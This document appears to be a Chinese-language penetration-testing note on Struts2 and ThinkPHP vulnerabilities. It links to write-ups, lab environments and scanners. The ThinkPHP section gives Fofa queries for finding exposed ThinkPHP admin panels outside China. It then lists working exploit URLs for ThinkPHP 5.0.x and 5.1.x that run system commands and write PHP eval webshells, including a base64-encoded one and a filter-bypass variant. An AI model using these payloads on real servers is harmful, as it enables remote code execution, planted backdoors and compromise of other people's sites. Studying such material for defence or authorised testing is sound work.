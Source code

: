 https://target.yijinglab.com
# Struts2漏洞
用于创建企业级Java Web应用的开源MVC框架, 由Apache软件基金会负责维护开源. 其本质相当于一个servlet, 作为controller来建立模型于视图的数据交互.

## Struts2历史漏洞
[史上最全Struts2 漏洞复现合集（上](https://zhuanlan.zhihu.com/p/183876381)
[Struts2系列漏洞复现汇总-持续更新中 - 小阿辉谈安全](https://www.cnblogs.com/hgschool/p/17035322.html)

### Struts2原理分析
[Struts2漏洞集合分析与梳理 | tttang](https://tttang.com/archive/1583/)
[Struts2 系列漏洞调试总结 | 素十八](https://su18.org/post/struts2-5/)

### Struts2环境搭建
https://github.com/vulhub/vulhub/tree/master/struts2

### Struts2检测工具
https://github.com/HatBoy/Struts2-Scan
https://github.com/Guaang/s2-tool
https://github.com/shack2/Struts2VulsTools


# Thinkphp
由国人开发的开源框架, 支持Win/Unix/Linux等服务器环境的轻量级PHP开发框架, 很多cmd基于thinkphp开发
- KenCMD内容管理系统
- ThinkCMF内容管理框架
- DuxCMS

## Thinkphp历史漏洞
| 版本             | 漏洞类型                 |
| -------------- | -------------------- |
| ThinkPHP3.2.3  | 缓存函数设计缺陷可导致Getshell  |
| ThinkPHP3.2.3  | 最新版update注入漏洞        |
| ThinkPHP3.2.X  | find_select_delete漏洞 |
| ThinkPHP3.X    | order_by注入漏洞         |
| ThinkPHP5.0.X  | sql注入漏洞              |
| ThinkPHP5.0.10 | 缓存函数设计缺陷可导致Getshell  |
| ThinkPHP5      | SQL注入漏洞&&敏感信息泄露      |
| ThinkPHP5.X    | order_by注入漏洞         |
| ThinkPHP5.X    | 远程代码执行               |

### 漏洞发现
![[Pasted image 20230819012036.png]]
- Fofa
```
header="thinkphp" && country!="CN"
header="thinkphp" && country!="CN" && title="后台管理"
header="thinkphp" && country!="CN" && title="后台管理" && after="2021-01-01"
```
- https://github.com/Lucifer1993/TPscan
- https://github.com/theLSA/tp5-getshell
- https://github.com/Lotus6/ThinkphpGUI
- https://github.com/bewhale/thinkphp_gui_tools
- https://github.com/MrHatSec/ThinkPhp5.x_Scan
- 漏洞总结
	- https://y4er.com/post/thinkphp3-vuln/
	- https://y4er.com/post/thinkphp5-rce/
`/index.php?s=index/\think\app/invokefunction`路径下存在执行回调函数, 用户可以自定义调用的函数和参数值, 以此调用system函数, 执行任意命令

#### 5.0.* 常用POC
##### 执行命令
```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
##### 写入webshell
```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_POST[ccc]);?>

/index.php?
s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo -n  YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell9.php
```

#### 5.1.* 常用POC
##### 执行命令
```
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\Request/input&filter=system&data=id

/index.php?s=/index/\think\request/cache&key=1|phpinfo
```
##### 写入webshell
```
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[ccc]);?>" >shell.php
```
##### 替换过滤字符
```
(echo "^<?php @eval($_POST[ccc]);?^>" >shell1.php)
```